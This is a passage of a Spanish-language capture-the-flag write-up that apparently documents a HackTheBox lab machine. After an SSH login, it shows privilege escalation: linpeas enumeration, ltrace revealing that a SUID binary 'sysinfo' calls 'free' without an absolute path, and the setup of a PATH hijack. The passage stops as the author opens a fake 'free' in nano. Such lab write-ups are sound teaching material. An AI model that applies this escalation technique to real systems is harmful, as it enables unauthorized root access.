 ```
|     + @ = o o   |
|    E + S o .    |
|     o o = . +   |
|. o + . . + + +  |
| * * o   . . o o |
|  = o..       o  |
+----[SHA256]-----+
```

![](https://i.imgur.com/05X6zEE.png)

Ahora se tiene una conexión por ssh:
```
ssh theseus@10.10.10.185
```

![](https://i.imgur.com/GEyweD3.png)


## Root

Se ejecuta el linpeas.sh en la máquina víctima:
```
theseus@ubuntu:~/Desktop$ ./linpeas.sh 
```
Y se obtiene información sobre un binario SUID desconocido **sysinfo**:

![](https://i.imgur.com/74LrI9R.png)

Este binario llama la atención dado que el grupo **users** tiene permisos de ejecución y lectura, y el usuario theseus pertenece a este grupo:

![](https://i.imgur.com/h4dOrHx.png)

Ahora se ejecuta el comando ltrace junto al binario sysinfo:
```
theseus@ubuntu:~/Desktop$ ltrace /bin/sysinfo
```
**ltrace** imprime las llamadas realizadas fuera del binario sysinfo, en este caso se ve la función popen la cual tiene en su primer parámetro al comando "free -h". 

![](https://i.imgur.com/zn6F3S4.png)

El comando free se ejecuta sin usar un ruta absoluta, entonces se puede crear un comando free malicioso que sea llamado y ejecutado antes que el real(**path hijack**).

```
theseus@ubuntu:~/Desktop$ pwd
/home/theseus/Desktop
theseus@ubuntu:~/Desktop$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:~/Desktop$ export PATH=/home/theseus/Desktop:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:~/Desktop$ ls -la /bin/bash 
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
theseus@ubuntu:~/Desktop$ nano free
```
